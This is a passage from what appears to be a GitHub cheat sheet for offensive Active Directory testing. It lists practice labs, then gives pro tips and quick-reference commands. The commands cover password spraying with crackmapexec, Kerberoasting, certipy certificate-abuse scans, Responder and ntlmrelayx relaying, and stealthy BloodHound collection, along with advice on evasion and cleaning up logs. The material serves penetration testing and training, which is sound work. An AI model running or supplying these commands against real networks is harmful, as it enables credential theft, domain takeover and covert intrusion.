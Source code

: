 - Use --stealth flags when available
- Rotate source IPs and user agents
- Time delays between attacks
- Clean up artifacts and logs
- Use legitimate tools when possible (PowerShell, WMI)

### 📚 Advanced Learning Resources

#### 🔬 Practice Labs

- **GOAD (Game of Active Directory)**: Complex multi-forest lab
- **VulnLab**: Advanced AD scenarios
- **HackTheBox Pro Labs**: Dante, RastaLabs, Offshore
- **TryHackMe**: Holo, Wreath networks

#### 🛠️ Custom Tooling

```bash
# Build custom wordlists
cewl https://company.com > custom_wordlist.txt
hashcat --stdout -r best64.rule custom_wordlist.txt > enhanced_wordlist.txt

# Automation scripts
for target in $(cat targets.txt); do crackmapexec smb $target -u users.txt -p passwords.txt; done
```

### 🔥 Pro Tips for Advanced Practitioners

1. **Always enumerate certificates first** - ADCS misconfigurations are common and powerful
2. **Coercion attacks are goldmines** - PetitPotam, PrinterBug, Coercer for forced authentication
3. **Don't ignore Exchange** - PrivExchange and ProxyLogon/ProxyShell are game-changers
4. **RBCD is underutilized** - Easier than traditional delegation attacks
5. **Shadow Credentials bypass MFA** - Modern technique for certificate-based attacks
6. **Trust relationships are highways** - Bidirectional trusts for lateral movement
7. **Check AdminSDHolder periodically** - Hidden privilege escalation opportunities
8. **LAPS enumeration pays off** - Local admin passwords for widespread access
9. **DNS is often overlooked** - DNS admin privileges can lead to domain admin
10. **Event logs tell stories** - Understand what you're generating for better evasion

### ⚡ Quick Reference Commands

```bash
# One-liner domain takeover check
GetUserSPNs.py -dc-ip $DC domain.com/guest: -request | grep -i admin

# Certificate vulnerability scan
certipy find -u guest@domain.com -p '' -dc-ip $DC -vulnerable -stdout

# Quick NTLM relay setup
responder -I eth0 -A & ntlmrelayx.py -tf targets.txt -smb2support

# BloodHound data collection
sharphound.exe -c All --stealth --zipfilename $(hostname)_$(date +%Y%m%d).zip
```

---